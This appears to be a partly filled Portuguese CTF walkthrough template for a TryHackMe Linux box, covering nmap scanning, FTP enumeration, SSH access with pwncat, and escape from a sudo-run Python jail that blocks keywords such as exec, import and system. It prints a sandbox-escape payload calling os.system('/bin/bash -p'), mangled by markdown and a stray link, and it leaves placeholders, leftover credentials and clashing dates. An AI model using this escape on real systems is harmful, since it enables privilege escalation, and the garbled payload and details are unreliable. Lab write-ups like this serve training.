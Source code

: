 ```yaml
---
title: Plataforma - Nome Modelo
author: mithr4nd1r
date: 2022-11-29 00:00:00 -0300
categories: [Walkthrough, Plataforma]
tags: [writeup, walkthrough, tryhackme, thm, tutorial, hacking, pentest, ctf, capture, flag, linux, medium, médio]
mermaid: true
image: https://pm1.narvii.com/6423/6ceaa4749eeb98d7ac41c7b1eead16646c7857be_00.jpg
    path: https://pm1.narvii.com/6423/6ceaa4749eeb98d7ac41c7b1eead16646c7857be_00.jpg
    w: 155
    h: 126
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_facil.png) | ![](/assets/img/nivel/button_medio.png) | 16 de Dezembro de 2022 | 16 de Dezembro de 2022


## Escaneamento

Iniciamos nosso escaneamento como sempre, varrendo todas as portas, verificando as versões e realizando alguns testes rápidos de scripts.
- Comando: `nmap -sSV -A -v -Pn -p- --min-rate=10000 10.10.208.57`

```console
{nmap scan}
```

## Enumeração

Partindo para enumeração verificamos o serviço ....
### FTP (21) - Versão: vsftpd 3.0.3

- Comando: `ftp 10.10.208.57`
```console
{resultado do comando}
```

Encontramos credenciais que podem ser úteis:
> `backup@spookysec.local`:`backup2517860`
{: .prompt-info }

Podemos observar que ... então a partir desse dado encontramos o ponto de entrada


## Exploração (Acesso Inicial)

Para conseguir o acesso inicial seguimos na linha de raciocínio de utilizar tal exploit em tal serviço..

- Comando: `pwncat-cs ssh://kamishiro@10.10.208.57`
```console
01:55:24 root@m1thr4d1r tokyoghoul → pwncat-cs ssh://kamishiro@10.10.208.57
/root/.local/pipx/venvs/pwncat-cs/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[13:56:45] Welcome to pwncat 🐈!                                        __main__.py:164
Password: ***********
[13:57:16] 10.10.208.57:22: registered new host w/ db                    manager.py:957
(local) pwncat$                                                                        
(remote) kamishiro@vagrant:/home/kamishiro$ id
uid=1001(kamishiro) gid=1001(kamishiro) groups=1001(kamishiro)
```

## Pós-Exploração (Escaneamento Interno)

Com o acesso interno realiza-se uma enumeração interna utilizando ...
- Comando: `sudo -l`
```console
    [sudo] password for kamishiro: 
    Matching Defaults entries for kamishiro on vagrant.vm:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User kamishiro may run the following commands on vagrant.vm:
        (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```


```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

## Escalação de Privilégio

Sabemos que temos de alguma forma bypassar a restrição de palavras do script para escalar privilégio, assim pesquisei no google por "python jail escape" e encontrei uma possível solução...
[Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)

- Comandos: `sudo /usr/bin/python3 /home/kamishiro/jail.py`

```python
**__builtins__**.__**dict__**['__**IMPORT__**'.lower()](https://www.notion.so/'OS'.lower()).__**dict__**['SYSTEM'.lower()]('/bin/bash -p')
```

![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/tokyoghoul/Untitled9.png)